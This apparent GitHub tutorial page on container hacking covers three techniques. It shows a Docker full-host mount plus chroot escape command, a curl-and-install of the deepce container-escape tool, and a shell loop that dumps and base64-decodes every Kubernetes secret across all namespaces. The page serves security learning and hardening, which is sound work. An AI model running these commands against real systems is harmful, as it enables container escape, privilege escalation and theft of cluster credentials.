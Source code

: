 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging unsecure mount](#leveraging-unsecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)

## Docker

### Leveraging unsecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Unsecure mount](img/00-unsecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-unsecure-mount](#leveraging-unsecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:


```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```